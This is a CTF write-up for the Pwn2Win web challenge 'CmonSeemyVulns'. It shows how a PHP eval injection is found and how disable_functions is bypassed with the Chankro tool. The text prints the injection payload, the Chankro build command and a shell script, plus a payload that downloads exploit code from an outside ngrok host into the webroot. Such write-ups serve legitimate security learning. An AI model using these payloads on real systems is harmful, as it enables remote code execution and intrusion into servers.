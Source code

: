 ```yaml
---
title: [Pwn2Win] - CmonSeemyVulns - Writeup
tags: web, php, disable_functions, chankro
---
```


## Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given a source code with the Dockerfile.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

## Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

So in the 7th line we have an eval inside a function `do_calcs` that has been called in the line 17 ! 
But first we have to check the 4th line where we have the regex pattern so our php code must be inside `{{PHP EVAL CODE}}`

## Solution

If we tries to send something like `200,{{phpinfo()}}` its going to be executed !

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But what I noticed is disable functions

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

For such situations I always use Chankro => https://github.com/TarlogicSecurity/Chankro

First Let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Great! Now let's start a webserver using PHP or Python and move our exploit.txt to it and go directly to exploitation ...

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

After that we can browser the file http://127.0.0.1:1337/exploit.php

And will get easily our http://127.0.0.1:1337/flag.txt
